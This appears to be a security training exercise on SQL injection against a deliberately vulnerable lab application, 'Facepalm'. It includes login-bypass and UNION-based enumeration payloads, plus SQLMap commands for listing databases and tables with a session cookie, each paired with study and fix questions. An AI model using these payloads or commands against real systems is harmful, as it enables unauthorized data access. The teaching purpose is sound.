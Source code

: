 #### Please note that all URLs are examples, you need to find new URLs in the application

## SQL Injection
A SQL injection attack is performed when an attacker attempts to pass bad data to the application in hope that it will be injected into a SQL query.
For example, when attempting to login, it can be guessed that the query should look somewhat like  
*"SELECT * FROM USERS WHERE USERNAME='" + username + "' AND PASSWORD='" + password + "'"*

If the attacker would then enter the username admin and password helloworld, the complete query would be  
*"SELECT * FROM USERS WHERE USERNAME='admin' AND PASSWORD='helloworld'"*

By realising how a query is built, the attacker could instead pass username admin and password ' OR 1=1; --'

#### Questions
1. What would the resulting query be for the injection attack?
2. What does the attack query do and how can it be used?
3. Can you find any place in the application where you can use this attack?
4. How can you fix it in the code?

## Display information using SQL injection
Sometimes information is retrieved from a SQL query and displayed in the client.
If there is a sql vulnerability, this can be exploited into showing unintended data, such as internal database information

This is most common in GET requests where information is retrieved based a parameter, such as user id. Let's take the example where grades are retrieved by user id.  
*Endpoint: .../grades?user=admin*  
*Resulting backend query: "SELECT * FROM GRADES WHERE USERNAME='admin'"*

If the attacker would then instead change the user to "admin' OR 1=1 --'", the result would be  
*Endpoint: .../grades?user=' OR 1=1 --'*  
*Resulting backend query: "SELECT * FROM GRADES WHERE USERNAME='admin' OR 1=1 --''"*

If the page load is properly loaded, there is a high risk for a SQL vulnerability. We can then check how many columns the queried table has:  
*.../grades?user=admin' ORDER BY 3 --'*   **# Page loads correctly, sorted according the 3 column**  
*.../grades?user=admin' ORDER BY 5 --'*   **# Page loads correctly, sorted according the 5 column**  
*.../grades?user=admin' ORDER BY 6 --'*   **# Fails! We only have 5 columns**  

We can then query the type of each column by selecting values that we think are matching types  
*.../grades?user=admin' UNION SELECT null, null, null, null, null --'*   **# Start with only null, change one at a time**  
*.../grades?user=admin' UNION SELECT 1, null, 3, 'TEST', 'ABC' --'*      **# Change data types as long as server does not crash**

#### Questions
1. What could be interesting to list in such attacks?
2. How would an attack SQL query look like?
3. Is there any special metadata that can be queried for important information?
4. Can you find a page with this weakness in the application?
5. How do you solve it?

## SQL Map - Automatic injection tool
In real life, attackers will not manually test and inject on apges. Instead tools are used to automatically detect vulnerabilities and perform attacks against these. There are more advanced injection attacks, such as time-based, where a tool is a requirement. SQLMap (http://sqlmap.org/) is a python utility that can be used to perform automatic advanced SQL attacks against a system.

SQLMap first attempts to check if an endpoint is vulnerable. If so, it attempts to detect which database is used for persisting data. After that, information is extracted using special queries. The user manual for SQLMap can be found at https://github.com/sqlmapproject/sqlmap/wiki/Usage

#### Usage
First, a vulnerable endpoint needs to be found. An endpoint can be tested using
```python
python sqlmap.py -u "http://localhost:8080/....?id=123"
```
However, in a lot of cases the vulnerable endpoint is at a place where the user needs to be logged in. If so, we also need to send a cookie value for the logged in session as SQLMap will run separate from your browser.
```python
python sqlmap.py -u "http://localhost:8080/....?id=123" --cookie="JSESSIONID=E52B5F51105364280C3E011C5EA837E8"
```
If vulnerable, the running database will be detected and the user will be notified that an attack is possible. If an vulnerable parameter is detected, there is no need to continue searching for more. Let's continue investigate which schemas/databases are available
```python
python sqlmap.py -u "http://localhost:8080/....?id=123" --cookie="JSESSIONID=E52B5F51105364280C3E011C5EA837E8" --dbs --no-cast
```
*dbs* will attempt to read all databases. *--no-cast* is only needed when detecting schemas and the underlying database is an embedded HSQLDB as in Facepalm - normally it can be left out. Once the schemas are found, the tables in a specific schema can be found as
```python
python sqlmap.py -u "http://localhost:8080/....?id=123" --cookie="JSESSIONID=E52B5F51105364280C3E011C5EA837E8" -D #SCHEMA_NAME# --tables
```
where *#SCHEMA_NAME#* is replaced with the real schema name. There are of course more attacks to perform which are asked for in the *Questions* section.

#### Questions
1. How can SQLMap detect if an endpoint is vulnerable?
2. How does SQLMap detect which database is running?
3. How can SQLMap read and dump the complete database without any prior knowledge except detected database software?
4. Can you find somewhere in Facepalm where you can run SQLMap?
5. Detect all available schemas and tables
6. Read the content of a specific table
6. Dump the database using the found endpoint in 4) and show the user information

## (Solutions)
The vulnerability can be investigated for example in JPAUserRepository or JPAImageRepository.java. Try to study the code first and then try exploiting the application

